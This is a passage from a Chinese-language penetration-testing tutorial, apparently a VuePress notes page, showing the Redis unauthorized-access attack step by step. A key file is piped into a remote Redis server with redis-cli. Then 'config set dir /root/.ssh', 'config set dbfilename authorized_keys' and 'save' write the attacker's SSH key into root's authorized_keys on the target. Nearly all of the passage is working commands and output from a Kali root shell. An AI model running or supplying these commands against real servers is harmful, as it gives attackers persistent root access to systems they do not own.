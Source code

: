 ![img](../../../.vuepress/public/img/1628513275098-e5bcd6c4-3c19-4aaa-b2c1-90bd3d3b4a4e-20220415143203451.png)

再把 key.txt 文件内容写入目标主机的缓冲里

```php
cat key.txt | redis-cli -h 192.168.0.126 -x set test 
```

![img](../../../.vuepress/public/img/1628514409894-848f4f59-3b45-449a-8566-c204aed32354-20220415143203297.png)
再通过设置参数，写入指定文件

```php
┌──(root💀kali)-[~/.ssh]
└─# redis-cli -h 192.168.0.126 -p 6379
192.168.0.126:6379> config set dir /root/.ssh
OK
192.168.0.126:6379> config set dbfilename authorized_keys
OK
192.168.0.126:6379> keys *
1) "test"
192.168.0.126:6379> get test
"\n\n\nssh-rsa xxxxxxxxxxxx \n\n\n\n"
192.168.0.126:6379> save
OK
192.168.0.126:6379> 
```
